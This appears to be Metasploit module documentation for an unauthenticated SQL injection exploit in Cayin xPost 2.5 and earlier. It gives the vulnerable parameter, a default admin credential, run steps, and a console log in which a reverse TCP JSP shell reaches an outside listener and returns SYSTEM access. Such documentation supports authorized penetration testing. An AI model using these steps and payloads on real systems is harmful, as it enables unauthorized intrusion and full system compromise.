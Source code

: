 ## Vulnerable Application

This module exploits an unauthenticated SQLi in Cayin xPost <=2.5. 
The `wayfinder_meeting_input.jsp` file's `wayfinder_seqid` parameter can 
injected with a blind SQLi. Since this app bundles MySQL and Apache 
Tomcat the environment is pretty static and therefore the default 
settings should work. Results in SYSTEM level access. Only the 
`java/jsp_shell_reverse_tcp` and `java/jsp_shell_bind_tcp` payloads seem 
to be valid.

Default authentication for the system is administrator:admin from
[Guide](http://onlinehelp.cayintech.com/xPost/PDF/MAXP20EN110504-l.pdf) page 16

## Verification Steps

  1. Install the application and start it
  2. Start msfconsole
  3. Do: ```exploit/windows/http/cayin_xpost_sql_rce```
  4. Do: ```set rhosts [ip]```
  5. Do: ```run```
  6. You should get a shell.

## Options

### LOCALWEBROOT

Path to the `webapps` folder for Cayin.  Defaults to `C:/CayinApps/webapps/`

## Scenarios

### Cayin xPost 2.5 on Windows 10.0.16299.125

  ```
  [*] Processing xpost.rb for ERB directives.
  resource (xpost.rb)> use exploit/windows/http/cayin_xpost_sql_rce
  resource (xpost.rb)> set payload java/jsp_shell_reverse_tcp
  payload => java/jsp_shell_reverse_tcp
  resource (xpost.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (xpost.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (xpost.rb)> set verbose true
  verbose => true
  resource (xpost.rb)> exploit
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [*] Utilizing payload filename cY0bWf1Rh6C9.jsp
  [*] Payload Size: 1499
  [*] Payload Size Encoded: 2998
  [*] Attempting Exploitation
  [*] Triggering uploaded payload
  [*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:50158) at 2020-06-09 12:20:33 -0400
  [!] Tried to delete C:/CayinApps/webapps/cY0bWf1Rh6C9.jsp, unknown result
  
  
  C:\CayinApps\Tomcat>
  C:\CayinApps\Tomcat>whoami
  whoami
  nt authority\system
  
  C:\CayinApps\Tomcat>ver
  ver
  
  Microsoft Windows [Version 10.0.16299.125]
  
  C:\CayinApps\Tomcat>
  ```
